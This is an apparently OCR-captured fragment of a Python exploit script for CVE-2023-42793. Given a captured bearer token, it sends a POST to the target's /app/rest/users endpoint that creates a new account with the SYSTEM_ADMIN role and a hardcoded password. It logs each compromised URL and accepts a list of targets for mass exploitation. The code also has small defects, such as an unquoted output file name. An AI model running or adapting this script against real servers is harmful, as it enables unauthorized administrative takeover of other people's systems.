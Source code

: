 ```python
				if value.startswith('eyJ0eXAiOiAiVENWMiJ9'):
					self.create_user(value)
		except Exception as err:
			pass
			
	def create_user(self, token):
		uname = self.username()
		headers = {
		"User-Agent": "Mozilla/5.0 (https://github.com/H454NSec/CVE-2023-42793) Gecko/20100101 Firefox/113.0",
     "Accept": "*/*",
     "Authorization": f"Bearer {token}",
     "Content-Type": "application/json",
		}
		creds = {
			"email": "",
			"username": uname,
			"password": "@H454NSec",
			"roles": {
				"role": [{"roleId": "SYSTEM_ADMIN",
				"scope": "g"}]
			}
		}
		try:
			#Senfd a post request
			response = self.session.post(f"{self.url}/app/rest/users", headers=headers, json=creds, timeout=10)
			#if the response is successful
			if response.status_code == 200:
				print(f"{Green}[+] {Yellow}{self.url}/login.html {Green}[{uname}:@H454NSec]{Color_Off}")
				with open(vul.txt,"a") as o:
					o.write(f"[{uname}:@H454NSec] {self.url}\n")
		except Exception as err:
			pass
	#if the script is execute independiently
if __name__ == '__main__':
	#Create an object to analize arguments on 
	#command line
	parser = argparse.ArgumentParser()
	parser.add_argument('-u', '--url', help='Url of the web app')
	parser.add_argument('-l', '--list', help='List of urls')
	#Analyze arguments
	args = parser.parse_args()
	
	#Array to save list of url's
	db = []
	url_list = args.list
	
	if url_list:
		try:
			with open(url_list, "r") as fr:
			#Read every line on the file
				for data in fr.readlines():
					#Delete blank spaces
					db.append(data.strip())
		except Exception as err:
			print(err)
	
	elif args.url:
		db.append(args.url)
	#Instantiate an object to use it
	cve = CVE_2023_42793()
```